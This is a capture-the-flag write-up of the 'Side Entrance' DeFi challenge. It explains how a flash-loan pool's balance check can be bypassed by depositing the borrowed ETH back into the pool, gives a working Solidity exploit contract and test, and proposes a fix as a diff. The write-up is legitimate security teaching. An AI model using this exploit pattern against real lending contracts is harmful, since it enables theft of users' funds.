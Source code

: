 # Side Entrance

**As Always please try the challenge yourself first! Use your creativity, AI tools, YouTube tutorials on the topic, whatever it takes to try and solve it!** 

## Challenge Description:

```
A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already, and is offering free flashloans using the deposited ETH to promote their system.

You start with 1 ETH in balance. Pass the challenge by rescuing all ETH from the pool and depositing it in the designated recovery account.
```

## Vulnerability Description
This bug lies with the way the protocol checks the way their flash loan went. The nature of using `balanceOf`/`address(contract).balance` can be prone to manipulation. We saw in earlier challenges that an attacker can simply perform a donation attack, and rendering the protocol unusable (Denial of Service), but here it is a little different. 
 
## How does this challenge display this vulnerability/ies?
Lets walk through the code quickly as it is a very simple contract:

### deposit()
```javascript
function deposit() external payable {
    unchecked {
        balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }
```
- A user will pass the value they want to deposit.
- It gets added to the mapping for internal accounting.
- An event will be emitted

### withdraw()
```javascript
function withdraw() external {
        uint256 amount = balances[msg.sender];

        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }
```
- We get the amount from the mapping.
- Deleting the info.
- emit an event
- Transfer to the `msg.sender`.

### flashLoan()
```javascript
function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
```
- User sends amount (has to be a valid receiver):
```javascript
interface IFlashLoanEtherReceiver {
    function execute() external payable;
}
```
- The function will now send the amount to the user for the loan.
- Immediately after it will check that the amount returned. It will revert if it had not.

-----

At first it seems fairly innocent. But the bug is always there. The problem here is that, if as a receiver, I call deposit with the exact amount that exists in the pool, the balance of the pool, comes back to how it was before the loan. However, now it is in my name, which lets me withdraw it with no problems!

## Challenge Solution
Here is the PoC:
```javascript
function test_sideEntrance() public {
        Receiver receiver = new Receiver(address(pool), recovery);
        vm.startPrank(address(receiver));
        pool.flashLoan(ETHER_IN_POOL);
        pool.withdraw();
    }

contract Receiver is IFlashLoanEtherReceiver {
    address public pool;
    uint256 constant ETHER_IN_POOL = 1000e18;
    address recovery;

    constructor(address _pool, address _recovery) {
        pool = _pool;
        recovery = _recovery;
    }

    function execute() external payable override {
        // Deposit the flash loaned ETH into our own balance
        (bool success,) = pool.call{value: ETHER_IN_POOL}(abi.encodeWithSignature("deposit()"));
        require(success, "Deposit failed");
    }

    fallback() external payable {
        (bool success,) = recovery.call{value: ETHER_IN_POOL}("");
        require(success, "transfer failed");
    }

    receive() external payable {
        (bool success,) = recovery.call{value: ETHER_IN_POOL}("");
        require(success, "transfer failed");
    }
}
```

I noticed the bug fairly quickly but had trouble figuring out how to do it as the pranked `player`. However, after a few tries, I realized that it did not say `DO NOT TOUCH` above the modifier like it does on the other functions in the test files, so I decided to comment it out. 

1. I wrote a `Receiver` contract that inherits the `IFlashLoanEtherReceiver` interface.
2. I get all the necessary information for the addresses I need.
3. In the test function I create a new instance of the contract, `prank` as the `receiver`, and call `flashLoan`.
4. the`flashLoan` function will trigger the `execute` function in my `Receiver` contract.
5. The `execute` function will call `deposit()` with the amount I borrowed (the full amount in the `pool`). And the flashloan still passes.
6. Now the funds are mine! I can call `withdraw` (back in the test function).
7. The `withdraw` function transfers the `Receiver` contract the amount, by using the `fallback/receive` functions.
8. They both contain a transfer call to the `recovery` account.
9. All funds stolen!

## Recommendations
To fix this bug the protocol can consider having more sophisticated internal accounting. Consider having a `totalAmount` for the total amount in the pool, which increases when users deposit, and decreases as user withdraws. When a flashloan occurs, simply check with the state variable that it matches!

```diff
contract SideEntranceLenderPool {
    mapping(address => uint256) public balances;
+   uint256 public totalAmount; 

    error RepayFailed();

    event Deposit(address indexed who, uint256 amount);
    event Withdraw(address indexed who, uint256 amount);

    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
+           totalAmount += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];

        delete balances[msg.sender];
+       totalAmount -= amount;
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
-       uint256 balanceBefore = address(this).balance;
+       uint256 balanceBefore = totalAmount;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
```